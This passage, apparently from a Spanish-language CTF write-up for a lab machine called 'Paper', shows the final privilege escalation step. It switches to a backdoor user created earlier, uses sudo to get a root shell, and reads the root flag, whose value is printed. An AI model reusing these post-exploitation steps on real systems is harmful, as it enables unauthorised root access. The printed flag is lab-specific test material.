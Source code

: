 ### Captura flag root

Después de crear el usuario secnigma, se inició sesión con él y se verificaron sus grupos, observando que forma parte del grupo wheel, que otorga privilegios administrativos. Usando sudo su y la contraseña configurada, se obtuvo acceso a una shell como root, confirmando así la escalada de privilegios exitosa y el control total del sistema.
```bash
[dwight@paper tmp]$ su secnigma
Password: 
[secnigma@paper tmp]$ id
uid=1005 gid=1005 groups=1005,10(wheel)
[secnigma@paper tmp]$ sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for secnigma: secnigmaftw
[root@paper tmp]# id
uid=0(root) gid=0(root) groups=0(root)
```

Finalmente, ya con acceso root, se navegó hasta el directorio home del usuario root donde se encontró la flag de root. 
```bash
[root@paper tmp]# cd
[root@paper ~]# ls
anaconda-ks.cfg  initial-setup-ks.cfg  root.txt
[root@paper ~]# cat root.txt
a05adb4f83f0a01f5f1a3b6f2e1ebd38
```
